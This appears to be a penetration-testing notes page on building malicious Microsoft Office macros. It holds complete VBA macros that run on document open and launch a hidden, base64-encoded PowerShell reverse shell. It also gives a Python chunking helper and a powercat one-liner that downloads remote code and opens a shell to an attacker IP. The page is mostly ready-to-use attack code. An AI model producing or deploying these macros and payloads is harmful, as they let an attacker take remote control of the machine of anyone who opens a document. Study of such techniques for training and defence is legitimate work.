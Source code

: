 ```yaml
---
description: >-
  Credit:
  https://cel1s0.gitbook.io/offsec-notes/readme/windows/office-macro/microsoft-office
---
```


# Microsoft Office

## Method 1



Choose VIEW ribbon and selecting Macros option. We type name for the macro and in the MACROS in drop-down menu, select the name of document, then the macro will be add. When we click create, a simple macro framework will be add into our document. We have to save the document as either .docm or the older .doc format. They support embedded macros, .docx format does not.

{% embed url="https://www.revshells.com/" %}

![](<../../../.gitbook/assets/image (456).png>)

We have to edit the payload. We change related part of payload variable.&#x20;

```python
#!/usr/bin/python

payload = "powershell.exe -nop -w hidden -e JABjAGwAaQBlAG4Ad..."

n=50

for i in range(0, len(payload), n):
	print "Str = Str + " + '"' + payload[i:i+n] + '"'
```

```vba
Sub AutoOpen()
    Evil
End Sub

Sub Document_Open()
    Evil
End Sub

Sub Evil()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -e JABjAGwAaQBlAG4Ad"
    Str = Str + "AAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdAB"
    Str = Str + "lAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDA"
    Str = Str + "GwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAxACI"
    Str = Str + "ALAA4ADAAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAa"
    Str = Str + "QBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB"
    Str = Str + "5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2A"
    Str = Str + "DUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGk"
    Str = Str + "AIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAe"
    Str = Str + "QB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgB"
    Str = Str + "nAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhA"
    Str = Str + "CAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHA"
    Str = Str + "AZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQ"
    Str = Str + "QBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB"
    Str = Str + "0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApA"
    Str = Str + "DsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQ"
    Str = Str + "AZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAc"
    Str = Str + "gBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQA"
    Str = Str + "gACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgA"
    Str = Str + "CsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACI"
    Str = Str + "AOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAd"
    Str = Str + "AAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQA"
    Str = Str + "uAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrA"
    Str = Str + "DIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHM"
    Str = Str + "AZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZ"
    Str = Str + "QAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgB"
    Str = Str + "sAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvA"
    Str = Str + "HMAZQAoACkA"
    CreateObject("Wscript.Shell").Run Str
End Sub
```

## Method 2

{% embed url="https://medium.com/@minix9800/ms-word-macros-with-powercat-reverse-shell-58b20983e0f0" %}

```python
LHOST=192.168.119.169
LPORT=443
pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > revshell.txt
```

You should have an encoded payload.

Now

1. Create a document
2. Go to view and macros
3. Make a name for your macro and make sure it's used for this specific document that you will be using. Now click `Create`

Now copy and paste this into the VBA editor

```vba
Sub AutoOpen()
MyMacro
End Sub
Sub Document_Open()
MyMacro
End Sub
Sub MyMacro()
Dim Str As String
Str = "powershell -c ""$code=(New-Object System.Net.Webclient).DownloadString('http://192.168.119.169/revshell.txt'); iex 'powershell -E $code'"""
CreateObject("Wscript.Shell").Run Str
End Sub
```
